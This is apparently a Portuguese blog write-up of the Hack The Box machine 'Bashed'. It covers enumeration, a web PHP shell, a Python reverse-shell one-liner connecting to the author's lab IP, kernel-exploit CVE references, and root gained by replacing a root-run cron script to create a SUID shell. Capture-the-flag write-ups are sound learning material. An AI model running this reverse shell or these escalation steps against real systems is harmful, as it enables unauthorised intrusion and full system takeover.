 ```yaml
---
title:     "Hack The Box - Bashed"
tags: [linux,easy, CVE 2017-6074, CVE 2017-16995, kernel exploit]
categories: Linux
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/1.jpg)

## Enumeration

Iniciamos a enumeracao, usando o autorecon para ganhar tempo...

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/2.jpg)

Em paralelo eu estava olhando o site manualmente, de inicio vc ja encontra algumas dicas sobre a maquina..

Apos isso, fui verificar o output do autorecon e encotrei algumas coisas interessantes

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/3.jpg)

Veja o code de cada dir encontrado, os de `code 308` sao os mais imnportantes, entao precisava verificar cada um deles, ao verificar o `/dev` encontro o que eu estava procurando.. o `phpbash.php` entao ali eu ja tinha um bash em php, eu precisava agora ter uma reverse shell.

## Reverse Shell

Usando a tool [gorevpop](https://github.com/an4kein/gorevpop) que eu criei recentemente usando Go, gerei um payload python3 e em seguida ja estava com uma reverse shell

```
root@kali:~/HTB-Linux/bashed# go run /opt/gorevpop/main.go 19 10.10.14.25 443                                        

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/4.jpg)

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/5.jpg)

## Privilege Escalation

### With CVE: 2017-6074

`Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation`

***reference*** https://www.exploit-db.com/exploits/41458

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/6.jpg)

### With CVE: 2017-16995

`
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation`


***reference*** https://www.exploit-db.com/exploits/44298

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/7.jpg)

### Process

Analisando um pouco mais, o usuario `scriptmanager` nao precisa de password para executar usando o `sudo`

`(scriptmanager : scriptmanager) NOPASSWD: ALL`

![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/8.jpg)

Depois de trocar de usuario comm o seguinte comando `sudo -u scriptmanager /bin/bash`

Comeco a analisar os processos, para identificar algo sendo executado pelo o root.. usei o [pspy](https://github.com/DominicBreuker/pspy)

![9.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/9.jpg)


Veja que em minuto em minuto  o `root` abre o `/scripts` em seguida executa o test.py. Entao, eu criei o  meu proprio `test.py` e troquei pelo o existente.

![10.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/10.jpg)

Feito, isso. eh so aguardar um minuto e nosso `rootbash` sera criado com o `suid` de root no `\tmp`

antes: 

![11.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/11.jpg)

depois:

![12.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/12.jpg)

Agora, basta ir ate o `\tmp` da permissao de execucao ao `rootbash`  `chmod +x rootbash` em seguida executar `rootbash -p` e teremos nossa shell de root

![13.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/13.jpg)









